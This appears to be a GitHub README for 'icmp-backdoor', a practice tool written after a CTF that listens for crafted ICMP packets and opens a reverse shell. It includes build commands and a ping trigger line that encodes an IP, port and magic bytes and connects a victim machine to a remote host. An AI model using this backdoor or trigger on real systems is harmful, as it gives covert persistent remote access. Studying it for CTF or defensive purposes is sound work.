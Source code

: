 # icmp-backdoor

During the BSidesLV Pros vs. Joes CTF, it was revealed that the red
cell used a very similar tool to this known as prism to achieve
persistence in a few of our machines. I decided to write my own tool
similar to this for practice.

Prism: https://github.com/andreafabrizi/prism

The concept behind this tool is that it listens for specially crafted
ICMP packets, and if they match a certain criteria, it will spawn a
reverse shell to a specified host and port.

# Building

Just use _make_. This has currently been tested only on Linux. Will
test on BSD, macOS and others soon:

	$ make
	
If you don't have _make_ or if _gcc_ isn't your thing:

	$ clang -o icmp-backdoor icmp-backdoor.c

# Usage

Since this uses SOCK_RAW, you must run this as root or otherwise have
the ability to open raw sockets as the user that initially runs this.

Prism uses its own tool to send the packets. I opted for a "live off
the land" approach and use the commonly-available _ping_ utility with
the -p flag:

	$ ping -c 1 -p 0a0a001710002a7a host

The format for the pattern is: IIIIIIIIPPPPMMMM where I is IP address,
P is port, and M is magic bytes. This is represented as hexadecimal,
so you will either have to be a weirdo like me and be able to
calculate this in your head or use a calculator. I will add a shell
script to leverage this in the next few days.

In the above example:

	IP: 0a0a0017 is 10.10.0.23
	Port: 1000 is 4096
	Magic is 2a7a, which is hard-coded into this program.

This will open a reverse shell from the victim machine to 10.10.0.23:4096.

The magic bytes are there for alignment purposes when using the -p
flag with ping and as a mechanism to determine if a shell should be
opened when an ICMP packet is received.



